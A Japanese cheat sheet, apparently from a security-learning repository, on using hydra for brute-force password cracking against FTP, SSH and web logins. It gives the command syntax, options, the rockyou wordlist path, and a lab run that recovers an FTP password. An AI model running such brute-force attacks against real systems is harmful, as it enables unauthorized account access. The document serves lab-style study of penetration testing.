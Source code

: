 ## 1.hydraとは
- 能動的パスワードクラックを行うツール
- SSHやFTPなどのサービスや、Webアプリのログインフォームに対して攻撃が可能
- `wordlist`の使用が可能  
  
## 2.構　文
### 2-1.ユーザ名が既知
```bash
hydra -l <ユーザ名> -P <パスワードリスト> <IPアドレス> <プロトコル>
```
  
### 2-2.ユーザ名、パスワード共にクラック
```bash
hydra -L <ユーザリストファイル> -P <パスワードリスト> http:<ターゲットのパス>
```
## 3.代表的なオプション
- `-l`：`ユーザ名`、あるいは`ID`が既知のとき、直接指定するオプション  
- `-L`：`ユーザリストファイルリスト`を指定するオプション
- `-p`：`パスワード`が既知の時、直接指定するオプション
- `-P`：`パスワードリストファイルリスト`を指定するオプション 
- `-V`：詳細の出力
- `-vV`：更に詳細の出力
- `-f`：ログインに成功したらそのタイミングで総当たりをやめる
  
## 4.頻出パスワードリスト
- `/usr/share/wordlists/rockyou.txt`  
  
## 5.実行例
`mike`の`パスワード`が`password`であると解析  
```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.35.212 ftp     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-09 21:55:16
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.35.212:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.35.212 - login "mike" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[21][ftp] host: 10.10.35.212   login: mike   password: password
[STATUS] attack finished for 10.10.35.212 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-09 21:55:28
```
  
## 6.参　考
[kali linuxでhydraを使ってパスワードクラックをしてみた - Qiita](https://qiita.com/miya_zato/items/0c32dc71208460515e34)  
[ハッカーはhydraでログインクラックを確認する(Kali Linux) - AIを武器にホワイトハッカーになる](https://whitemarkn.com/learning-ethical-hacker/hydra/)  
  
